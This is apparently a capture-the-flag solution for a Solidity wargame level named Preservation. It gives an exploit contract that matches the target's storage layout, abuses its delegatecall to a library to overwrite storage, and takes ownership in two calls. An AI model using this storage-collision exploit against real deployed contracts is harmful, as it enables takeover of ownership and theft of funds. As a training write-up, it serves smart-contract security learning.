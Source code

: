 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Preservation {
    function setFirstTime(uint) external;

}

contract Exploit {

    address public o;
    address public p;
    address public owner;

    function exploit(address _who) public {
        Preservation(_who).setFirstTime(uint(address(this)));
    }

    function test(uint add) public pure returns (address) {
       return address(add); 
    }

    function test2(address add) public pure returns (uint) {
        return uint(add);
    }

    function setTime(uint _time) public {
        owner = address(tx.origin);
    }
}
```
- Call exploit()
- Call setTime() on your ocntract instance, with any value
